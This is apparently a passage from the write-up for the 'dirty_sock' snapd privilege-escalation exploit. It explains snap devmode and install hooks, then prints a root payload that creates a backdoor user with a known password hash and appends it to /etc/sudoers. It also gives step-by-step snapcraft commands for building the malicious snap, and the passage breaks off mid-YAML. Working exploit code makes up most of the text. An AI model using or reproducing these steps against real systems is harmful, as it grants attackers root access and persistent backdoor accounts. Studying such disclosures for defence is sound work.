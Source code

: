 Snaps themselves run in sandboxes and require digital signatures matching public keys that machines already trust. However, it is possible to lower these restrictions by indicating that a snap is in development (called "devmode"). This will give the snap access to the host Operating System just as any other application would have.

Additionally, snaps have something called "hooks". One such hook, the "install hook" is run at the time of snap installation and can be a simple shell script. If the snap is configured in "devmode", then this hook will be run in the context of root.

I created a snap from scratch that is essentially empty and has no functionality. What it does have, however, is a bash script that is executed at install time. 

*Note for clarity: This version of the exploit does not hide inside a malicious snap. Instead, it uses a malicious snap as a delivery mechanism for the user creation payload. This is possible due to the same uid=0 bug as version 1*

That bash script runs the following commands:

```
useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

That encrypted string is simply the text `dirty_sock` created with Python's `crypt.crypt()` function.

The commands below show the process of creating this snap in detail. This is all done from a development machine, not the target. One the snap is created, it is converted to base64 text to be included in the full python exploit.

```sh
# Install necessary tools
sudo apt install snapcraft -y

# Make an empty directory to work with
cd /tmp
mkdir dirty_snap
cd dirty_snap

# Initialize the directory as a snap project
snapcraft init

# Set up the install hook
mkdir snap/hooks
touch snap/hooks/install
chmod a+x snap/hooks/install

# Write the script we want to execute as root
cat > snap/hooks/install << "EOF"
#!/bin/bash

useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
EOF

# Configure the snap yaml file
cat > snap/snapcraft.yaml << "EOF"
name: dirty-sock
version: '0.1' 
summary: Empty snap, used for exploit
description: |
    See https://github.com/initstring/dirty_sock

grade: devel
```